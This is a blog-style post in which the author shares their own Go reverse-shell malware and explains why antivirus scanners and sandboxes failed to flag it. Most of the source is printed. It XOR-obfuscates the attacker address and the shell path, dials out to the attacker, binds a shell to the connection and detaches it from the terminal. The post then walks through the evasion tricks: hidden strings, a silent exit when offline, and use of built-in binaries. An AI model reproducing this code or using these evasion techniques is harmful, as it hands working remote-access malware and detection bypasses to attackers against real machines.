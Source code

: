 # Evasion Tricks: How a basic reverse shell can't be flagged by Static analysis and sandboxes

Hi, i'm hoWo (lammer btw), today, we'll see how this basic malware, write in golang, havn't been flagged in Virus Total (sandbox + static) and Hybrid Analysis (sandbox + static too)

## Understanding the malware

In this section, we will try to understand the malware: What it do?

### What it do?

For convenience, i bring the source-code (i'm afraid of skids now) of the malware:

```go
package main

import (
	"net"
	"os/exec"
	"syscall"
)

/* DOCS
xe -> xor encoder
	p -> plain
	k & kk -> key
	x -> xor
	xs -> xor string

main
	kb -> key in bytes
	p -> protocol
	aip -> attacker IP
	s -> shell
	c -> connection
	e -> error
	cc -> command

*/

func xe(p, kk []byte) (x []byte) {
	xs := make([]byte, len(p))
	k := kk
	for i := range len(p) {
		xs[i] = p[i] ^ k[(i+1)%len(k)]
		k[(i+2)%len(k)] = k[i%len(k)]

	}

	return xs

}

func main() {
	kb := []byte{103, 111, 103, 111, [...], 103, 111}
	p := []byte{27, 4, 31}
	aip := []byte{93, 86, 92, 73, 94, 94, [...], 94, 86, 94}
	s := []byte{64, 5, 6, 9, 64, 20, 7}
	c, e := net.Dial(string(xe(p, kb)), string(xe(aip, kb)))
	if e != nil {
		return

	}

	defer c.Close()
	cc := exec.Command(string(xe(s, kb)))

	cc.Stdin = c
	cc.Stderr = c
	cc.Stdout = c

	cc.SysProcAttr = &syscall.SysProcAttr{
		Setsid: true,
	}

	_ = cc.Run()

}

```

As we can see, it's a really simple code for a really simple function: pwn your computer.
The first part of `main` func, define and initialize four slices of bytes: 

- `kb` (xor key in bytes)
- `p` (the protocol for `net.Dial`, basically "tcp")
- `aip` (attacker IP and port)
- `s` (shell, probally `"/bin/bash"` or `"/bin/sh"`)

After that, the program will try to create a TCP connection (`c, e := net.Dial`, `c` means connection and `e` means error).
If some error occurs, `return` finish the process.

The malware use `defer` to guarantee that conn'll be correctly stopped after main func finish.
Then, we create the exec.Command that will call the shell.
And the code block:

```go
cc.Stdin = c
cc.Stderr = c
cc.Stdout = c
```

redirect `Stdin`, `Stdout` and `Stderr` to our connection.

The last code block is very important:

```go
cc.SysProcAttr = &syscall.SysProcAttr{
	Setsid: true,
}

_ = cc.Run()
```

Here, the malware manually change the process (that will be created when we run the shell) attributes to guarantee that the new child process will be the parent of a new session (the PID will be equal to the SID of new session) and will disassociates itself from the controlling terminal of the parent process.
Basically, the child process (in our case, the shell), can't be stopped by SIGHUP of the controller terminal of the parent process (that means that a `^C`, or close the ssh conn, will not kill the shell)

Then, we will run the shell using `_ = cc.Run()`, the underline (`_`) means that we don't care 'bout the error that `cc.Run()` will return (if some).

### Understanding the XOR

This malware don't use a normal xor (`pseudo: plain[i] = plain[i] ^ key[i]`, this is a "normal" xor), the developer added a detail that changes everything:

```go
k[(i+2)%len(k)] = k[i%len(k)]
```

The key changes itself during the xor.
A good point to implement this is: if someone try to get the value of key and aip, for example, he can't just xor it again to get my IP, he will need to re-create my xor function.

## Understanding the Evasion

Now, we already understand the malware, so we can try to understand how it beat Virus Total and Hybrid Analysis.

### Obfuscated Strings

Critical strings like the shell bin path, ip, protocol, etc, aren't strings that can be triggered in static analysis.
Basic YARA Rules that try to get any string that is normal in malware, don't work and AVs just don't find "/bin/sh" (or any shell) out of runtime

### Minimal Conditional Execution

The malware try to connect to the attacker, if it don't works, the process exits normally without errors.
Sandboxes, like Falcon sandbox, just haven't access to external networks like the attacker's server, so the process just exit like nothing happened.
Basically, the malware in sandbox don't create traffic, don't create any sub-process, don't do nothing.

In sandbox view point, the program don't do nothing, and nothing isn't malicious.

### Low runtime "noise"

The malicious code, don't create nothing new (as it don't do nothing btw), so sandboxes mark it as clean, because it haven't any IOC

### LOLBINs

As a reverse shell, the code don't need to load a custom payload, it just spawn the shell.
It run as a _living off the land_: it uses binaries that already exists in system

## Conclusion

The malware isn't sofisticated, it's just simple.

---

> Refs:
<br>Malware was developed by me.
<br>All the text was wrote by me (but i used google translator to expand my limited vocabulary).

